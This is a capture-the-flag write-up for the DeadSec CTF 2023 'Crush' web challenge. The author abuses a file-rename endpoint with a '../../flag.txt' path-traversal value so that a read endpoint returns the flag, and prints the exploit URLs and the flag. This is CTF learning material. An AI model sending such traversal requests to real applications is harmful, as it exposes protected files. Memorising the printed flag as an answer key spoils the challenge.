

# Crush Challenge

## question 

Send a letter to crush

url : https://www.deadsec.xyz/instances/crush

Author: onsra



Attachments: 

- [app.js](./assets/crush/app.js)

## answer

after reading `app.js` source code, i realized that, flag probably exit in  a file with name `flag.txt`.

also, need to call `/hacking` api to set flag file path and then call `/readletter` api to read target file.

so my `/readletter` api is:

```
https://f7cbf08926fde192ad7b6016.deadsec.quest/readletter?lettername=flag
```

and my `/hacking` api is:

```
https://f7cbf08926fde192ad7b6016.deadsec.quest/hacking?hack=rename&lettername=flag&rename=../../flag.txt
```

but, for finding correct flag file path, i tested some paths like:

- `./flag.txt`
- `../flag.txt`
- `../../flag.txt`

In final, I found the flag in response of `/readletter` api: 

**`dead{CRUSH_LOVE_YOU_TOO}`**

## author

- name: DeadSec CTF 2023

- written by: madkne in 2023.05.19

- website: https://www.deadsec.xyz/
